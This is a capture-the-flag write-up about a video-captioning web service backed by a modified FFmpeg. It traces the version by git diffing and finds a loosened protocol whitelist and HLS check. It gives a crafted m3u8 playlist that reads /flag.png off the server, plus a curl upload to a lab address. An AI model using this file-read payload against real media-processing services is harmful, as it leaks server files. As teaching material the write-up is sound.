




# Checking the site

There is a webserver behind the given address. The service is adding a caption to an uploaded video (or image).



Uploading something generates a gif with the caption, like this.



# Backend

The backend has a lot of sanitization for the command line arguments, making it hard/impossible to inject anything.

```go
func sanitizeCaption(caption string) string {
	caption = strings.ReplaceAll(caption, "\\", "\\\\\\\\")
	caption = strings.ReplaceAll(caption, "\"", "\\\"")
	// ...
	caption = strings.ReplaceAll(caption, "-", "\\\\\\-")
	caption = strings.ReplaceAll(caption, "_", "\\\\\\_")
	caption = strings.ReplaceAll(caption, " ", "\\\\\\ ")

	return caption
}

func convertVideoToGIF(videoBytes []byte, caption string) ([]byte, error) {
	buf := bytes.NewBuffer(videoBytes)
	out := &bytes.Buffer{}
	err := ffmpeg.Input("pipe:0", ffmpeg.KwArgs{}).
		Output("pipe:1", ffmpeg.KwArgs{"f": "gif", "preset": "ultrafast", "t": "2", "vf": "scale=320:-1,drawtext=fontfile=OpenSans.ttf:text=" + caption + ":fontsize=24:fontcolor=white:x=(w-text_w)/2:y=h-50"}).
		GlobalArgs("-hide_banner").
		GlobalArgs("-loglevel", "error").
		GlobalArgs("-nostats").
		WithTimeout(5 * time.Second).
		WithInput(buf).
		WithOutput(out).
		OverWriteOutput().
		Silent(true).
		Run()

	return out.Bytes(), err
}
```

# Version

Checking the source, it is using a slightly modified [ffmpeg](https://github.com/FFmpeg/FFmpeg) started from the `go` backend server. Based on the changelog, it is based on `ffmpeg` version 7.0.

Using git and diff can be used to find a close release. Making a repo with the current source and the FFmpeg repo as foreign source.

```bash
mkdir /tmp/challenge
tar xf challenge.tar.xz -C /tmp/challenge
cd /tmp/challenge/assets/FFmpeg/
git init
git add -A && git commit -m "Modified FFmpeg"
git remote add foreign https://github.com/FFmpeg/FFmpeg.git
git fetch foreign 
# tags like n7.0 and n7.0.1 are visible for version
```

And searching in it. Looking for the closest changelogs backwards from 7.0.1, then the smallest differenvce without the tests and Dockerfile.build (not present in foreign, used to build it). 

```bash
for REV in $(git rev-list --max-count=256 n7.0.1); do echo $REV $(git diff --shortstat $REV master Changelog); done
for REV in $(git rev-list --max-count=256 n7.0.1); do echo $REV $(git diff --shortstat $REV master); done
for REV in $(git rev-list --max-count=256 n7.0.1); do echo $REV $(git diff --shortstat $REV master -- . ':(exclude)Dockerfile.build' ':(exclude)tests'); done
git diff e7d2238ad751e4ce4ebc5118af750fd5cc0c5055 master -- . ':(exclude)Dockerfile.build' ':(exclude)tests'
```




Alternatively `git bisect` can be used to look for it as a logarithmic search. 

```bash
git bisect start
git bisect good n7.0
git bisect bad n7.0.1

# Deciding whether it's good or bad based on the number of differences at every step.
git diff --shortstat HEAD master; git diff --shortstat HEAD^1 master 
git bisect good # one of these
git bisect bad # one of these

git bisect reset

git diff 6ab65792ab8e522f5a8a9f432ca11900f35a9d94^1 master -- . ':(exclude)Dockerfile.build' ':(exclude)tests'
```

This results in the same commit, `e7d2238ad751e4ce4ebc5118af750fd5cc0c5055`.

# Diff

This has mainly this 2 difference.

```
libavformat/file.c
-    .default_whitelist   = "crypto,data"
+    .default_whitelist   = "file,pipe,crypto,data"

libavformat/hls.c
-            return AVERROR_INVALIDDATA;
-            return 0;
```

These changes are related to the hls file format.

* [https://ffmpeg.org/ffmpeg-formats.html#hls-2](https://ffmpeg.org/ffmpeg-formats.html#hls-2)
* [https://developers.broadpeak.io/docs/foundations-hls](https://developers.broadpeak.io/docs/foundations-hls)

This can be tested locally like this (even with an unmodified ffmpeg binary).

```bash
ffmpeg -allowed_extensions ALL -i include.m3u8 -f gif -preset ultrafast -t 2 -vf "scale=320:-1,drawtext=fontfile=OpenSans.ttf:text=MEMEGEN:fontsize=24:fontcolor=white:x=(w-text_w)/2:y=h-50" memegen.gif
```

# Exploit

After reading through the specs, a malicious [include.m3u8](workdir/include.m3u8) can include the secret `/flag.png`.

```
#EXTM3U
#EXT-X-TARGETDURATION:2
#EXTINF:2,
file:///flag.png
#EXT-X-ENDLIST
```

Uploading the file gives us the [flag](workdir/flag.gif).



Or from console with OCR.

```bash
curl -F "file=@include.m3u8;type=video/anything" http://10.10.2.10:5227/upload -o flag.gif
tesseract flag.gif -
```

# Flag
`CQ24{NEVER_TRUST_RANDOM_SOURCES}`
